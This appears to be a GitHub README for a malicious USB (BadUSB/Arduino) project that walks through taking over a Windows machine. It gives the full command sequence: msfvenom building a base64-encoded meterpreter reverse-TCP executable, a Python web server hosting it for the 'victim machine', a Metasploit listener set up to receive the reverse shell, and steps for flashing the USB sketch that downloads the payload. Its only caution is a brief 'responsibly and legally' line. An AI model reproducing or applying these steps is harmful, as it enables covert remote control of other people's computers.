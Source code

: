 # Metasploit Download

Throughout this tutorial I will refer to `0.0.0.0`. When you see `0.0.0.0` you should replace it with your IP address.

You must have the [metasploit-framework](https://github.com/rapid7/metasploit-framework) and python installed in order for this to work. Installed by default in Kali Linux.

Please note that Windows Defender will stop this script from running. Windows Defender must be disabled for this script to work.

## Creating Payload

This command will create a Windows executable file, encoded in base64. Make sure to replace `0.0.0.0` with your IP.

```bash
msfvenom -p windows/x64/meterpreter_reverse_tcp LHOST=0.0.0.0 LPORT=4444 -f exe -e cmd/powershell_base64 -o winner.exe.b64
```

## Hosting Payload

This command creates a local server on your device that the victim machine can download the payload from.

```bash
python -m http.server 8888
```

## Metasploit Listener

The following is a sequence of commands to be run. This will prepare you to receive the reverse shell. Make sure to replace `0.0.0.0` with your IP.

- `msfconsole`
- `use exploit/multi/handler`
- `set payload windows/x64/meterpreter_reverse_tcp`
- `setg LHOST 0.0.0.0`
- `setg LPORT 4444`
- `exploit`


## Programming USB

Open [metasploit-download.ino](metasploit-download.ino), go to line 24, replace `0.0.0.0` with your IP, then upload your script to the USB. Insert __responsibly and legally__ please!


